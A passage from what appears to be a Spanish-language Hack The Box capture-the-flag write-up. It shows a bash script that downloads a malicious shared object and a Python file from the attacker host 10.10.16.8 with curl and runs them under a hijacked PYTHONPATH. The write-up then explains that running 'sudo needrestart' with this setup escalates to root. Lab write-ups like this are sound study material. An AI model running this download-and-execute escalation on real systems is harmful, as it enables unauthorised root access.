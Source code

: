 ```bash
#!/bin/bash

set -e
cd /tmp

mkdir -p malicious/importlib

curl http://10.10.16.8/__init__.so -o /tmp/malicious/importlib/__init__.so
curl http://10.10.16.8/e.py -o /tmp/malicious/e.py

cd /tmp/malicious; PYTHONPATH="$PWD" python3 e.py 2>/dev/null
```

Este script se va a ubicar en la carpeta /tmp y va a crear la carpeta `malicious/importlib`, luego va a descargar los archivos y lo guardara en diferentes carpetas.

Y por ultimo va a ejecutar con una variable de entorno `(PYTHONPATH="$PWD")` el `e.py` 2>/dev/null, el bucle que ejecuta el script e.py se va a parar cuando ejecutemos desde otra terminal `sudo /usr/sbin/needrestart` escalando privilegios como root y viendo la ultima flag.

![](htb-writeup-conversor/conversor9.png)



